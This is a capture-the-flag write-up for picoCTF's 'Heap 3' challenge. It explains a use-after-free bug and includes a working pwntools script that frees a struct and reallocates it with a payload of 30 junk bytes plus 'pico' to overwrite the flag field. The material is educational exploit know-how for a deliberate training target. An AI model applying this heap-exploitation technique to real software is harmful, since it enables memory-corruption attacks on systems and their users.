

# CTF Write-Up: [Heap 3][Binary Exploitation]

## Description
>This program mishandles memory. Can you exploit it to get the flag?


## Flag
The flag you obtained after solving the challenge. (e.g., `picoCTF{now_thats_free_real_estate_79173b73}`)

## Difficulty
- **Difficulty Level:** [medium]

## Tools Used
- pwntools

## Write-Up

### Preparatory Phase
Static analysis reveals some potential issues regarding a `free_memory` function: 
A user can free the `x` variable but the pointer to the memory address is not cleared. This can be problematic as after freeing `x`, the chuck of memory is still floating around can be used for malicious values. 

Our goal is to set `x->flag` to be "pico". We could attempt to write to `x->flag`.

However, unlike the previous two exercises [Heap 1] and [Heap 2] we do not know where the start of the buffer is located as we only given the value of `x->flag`: 
The address also seems to be randomised each time I run the binary, therefore I need to rely on this `use-after-free` vulnerability.

> Different address

The final key observation is the following data structure: 
.

Since a char is 1 byte, it requires 30 bytes of data to reach the `flag` field. This is important for the attack phase where we will be allocating memory to this data structure.

### Attack Phase

Given these options from the binary, the steps of the attack are as follows
1. Free the value at `x`
2. Allocate 35 bytes of memory and write to it 30 bytes of junk + "pico"
3. Now the pointer that was freed from `x` will point to our malicious payload. 
4. Press `4` to check for our win.

### Final Solution/Payload
```py
from pwn import *

host = 'tethys.picoctf.net'
port = 61865
io = remote(host, port)

response = io.recv()
io.sendline(b'5')
response = io.recv()
print(response)

io.sendline(b'2')
io.recv()
io.sendline(b'35')
io.recv()
payload = b'A' * 30 
payload += b'pico'
io.sendline(payload)
response = io.recv()
io.sendline(b'4')
response = io.recv()
print(response)

```

### Lessons Learnt
- **What is use after free vulnerability is?**
This was the first time I practically saw a use-after-free in action. At a high-level, a use-after-free exploit involves pointers and allocated heap memory. Pointers refer to data sets, so if a dataset is freed or removed the pointer still refers to that memory address (NOTE: in `C` usually we would set the pointer to NULL to prevent this). Now if new data is introduced, the program may allocate that same slot of memory where the pointer is still pointing to. This new data can be malicious code employed by an attacker.

Sources: https://www.ctfrecipes.com/pwn/heap-exploitation/use-after-free
## References
- https://www.automox.com/blog/vulnerability-definition-use-after-free
- https://cwe.mitre.org/data/definitions/416.html
- https://www.ctfrecipes.com/pwn/heap-exploitation/use-after-free
- [Recent example of Firefox case study](#https://thehackernews.com/2024/10/mozilla-warns-of-active-exploitation-in.html)
